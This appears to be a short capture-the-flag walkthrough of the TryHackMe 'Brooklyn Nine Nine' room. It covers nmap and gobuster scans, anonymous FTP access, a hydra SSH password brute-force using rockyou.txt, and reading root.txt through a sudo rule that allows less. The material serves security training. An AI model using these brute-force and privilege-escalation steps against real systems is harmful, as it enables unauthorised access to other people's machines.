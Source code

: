 kali@kali:~/oscptraining/tryhackme/brooklyn99$ nmap -sV -sC -o nmap 10.10.216.12
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 05:28 EST
Nmap scan report for 10.10.216.12
Host is up (0.32s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.102.117
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


trying gobuster
kali@kali:~/oscptraining/tryhackme/brooklyn99$ gobuster dir -e -u 10.10.216.12 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

seems like there's nothing much


FTP allows anonymous login, let's try logging in 

kali@kali:~/oscptraining/tryhackme/brooklyn99$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

seems like there's some weak password to some place. 

kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt

went to get the user.txt

jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less


sudo /usr/bin/less /root/root.txt 

and we get our root.txt!






